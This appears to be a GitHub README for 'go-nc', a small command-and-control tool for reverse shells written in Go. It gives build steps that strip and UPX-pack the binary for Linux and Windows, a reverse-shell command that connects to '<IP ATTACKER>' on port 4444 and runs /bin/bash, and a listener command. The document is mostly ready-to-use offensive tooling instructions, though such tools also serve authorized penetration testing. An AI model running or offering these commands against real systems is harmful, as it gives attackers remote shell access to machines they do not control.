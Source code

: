 # go-nc
Simple Command & Control for revshells in pure Go

# Build

### For Linux
```bash
git clone https://github.com/vay3t/go-nc
cd go-nc
go build -ldflags "-s -w" go-nc.go
upx go-nc
```

### For Windows
```bash
git clone https://github.com/vay3t/go-nc
cd go-nc
GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" go-nc.go
upx go-nc.exe
```

# Usage

### Reverse shell
```bash
./go-nc -host <IP ATTACKER> -port 4444 -exec /bin/bash
```

### Server
```bash
./go-nc -listen
```
